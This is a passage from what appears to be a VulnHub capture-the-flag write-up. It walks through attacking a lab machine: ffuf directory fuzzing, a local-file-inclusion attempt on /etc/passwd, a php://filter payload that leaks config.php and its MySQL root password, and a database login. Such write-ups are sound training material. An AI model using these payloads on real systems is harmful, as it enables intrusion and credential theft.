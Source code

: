 exploring the port 80 will result in the page where it has 3 menues :

![mainPage](https://github.com/Git-K3rnel/VulnHub/assets/127470407/f421609a-cf40-42b6-8dc3-717436dffea9)

at the same time fuzzing the applicaton shows extra directories :

```text
root@kali~# ffuf -w ~/wordlist/raft-large-directories.txt -u http://192.168.127.133/FUZZ
```

![ffuf](https://github.com/Git-K3rnel/VulnHub/assets/127470407/967d85bd-b4d0-468e-963a-89ab69ab2d1f)


another fuzzing :

```text
root@kali~# ffuf -w ~/wordlist/raft-medium-words.txt -u http://192.168.127.133/FUZZ/ -e .php,.zip,.rar,.png,.key,.jpg,.bak,.backup -fc 403
```

![ffuf2](https://github.com/Git-K3rnel/VulnHub/assets/127470407/66b48b19-42f8-4a8c-9164-8d14458c535b)

found `config.php` in this fuzz.

back to website at login menu :

![loginpage](https://github.com/Git-K3rnel/VulnHub/assets/127470407/2b717679-27b0-4d26-862a-650c4b22ea8e)

look at the url parameter `page`, tried different `LFI` payloads but none of them worked:

```text
http://192.168.127.133/?page=../../../../../../../../etc/passwd
```

i decided to test if i can convert the php source code into base64 encode using php `filter` :

```text
http://192.168.127.133/?page=php://filter/convert.base64-encode/resource=config
```

![config](https://github.com/Git-K3rnel/VulnHub/assets/127470407/44ab7fc1-3fb1-4424-93ea-30482e87ba38)

 and after decoding the base64 i got the following code :

 ```php
<?php
$server   = "localhost";
$username = "root";
$password = "H4u%QJ_H99";
$database = "Users";
?> 
```

yes, we have mysql root password, try to connect to it :

```text
root@kali~# mysql -u root -h 192.168.127.133 -p
```

provide the password and get all the information from database :
